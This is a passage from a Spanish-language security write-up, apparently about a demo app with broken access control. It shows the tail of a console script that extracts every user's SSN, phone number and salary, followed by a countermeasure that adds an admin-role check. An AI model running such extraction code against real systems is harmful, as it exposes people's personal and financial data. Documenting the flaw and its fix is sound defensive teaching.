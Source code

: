 ```javascript
  // Crear resumen ejecutivo
  const adminSummary = {
    total_users: users.length,
    admin_count: users.filter(u => u.role === 'admin').length,
    total_payroll: users.reduce((sum, u) => sum + (u.profile?.salary || 0), 0),
    departments: [...new Set(users.map(u => u.profile?.department))],
    sensitive_data: {
      ssns: users.map(u => ({ name: u.profile?.fullName, ssn: u.profile?.ssn })),
      phones: users.map(u => ({ name: u.profile?.fullName, phone: u.profile?.phone })),
      salaries: users.map(u => ({ name: u.profile?.fullName, salary: u.profile?.salary }))
    }
  };
  
  console.log("📊 RESUMEN ADMINISTRATIVO EXTRAÍDO:");
  console.table(adminSummary);
  
  // Guardar en variable global para acceso posterior
  window.extractedData = adminSummary;
  
  // Mostrar información crítica
  console.log("🚨 INFORMACIÓN CRÍTICA EXTRAÍDA:");
  console.log("💰 Nómina total: $" + adminSummary.total_payroll.toLocaleString());
  console.log("👥 Administradores:", users.filter(u => u.role === 'admin').map(u => u.username));
  console.log("🏢 Departamentos:", adminSummary.departments);
  
  return adminSummary;
};

// Ejecutar extracción
extractAllAdminData();
```

### 🛡️ **Contramedidas**

#### **1. Validación de Rol de Administrador**
```javascript
export const getAllUsers = async (): Promise<User[]> => {
  await simulateNetworkDelay();
  
  const token = localStorage.getItem('token');
  if (!token) {
    throw createHttpError(401, 'Token requerido');
  }

  const decoded = decodeSimpleJWT(token);
  if (!decoded) {
    throw createHttpError(403, 'Token inválido');
  }

  // ✅ Verificar rol de administrador
  if (decoded.role !== 'admin') {
    console.warn(`🚨 Unauthorized admin access attempt by user: ${decoded.username} (Role: ${decoded.role})`);
    throw createHttpError(403, 'Acceso denegado: Se requieren privilegios de administrador');
  }

  console.log(`✅ Admin access granted to user: ${decoded.username}`);

  return usersDatabase.map(user => {
    const userWithoutPassword = { ...user };
    delete (userWithoutPassword as any).password;
    return userWithoutPassword;
  });
```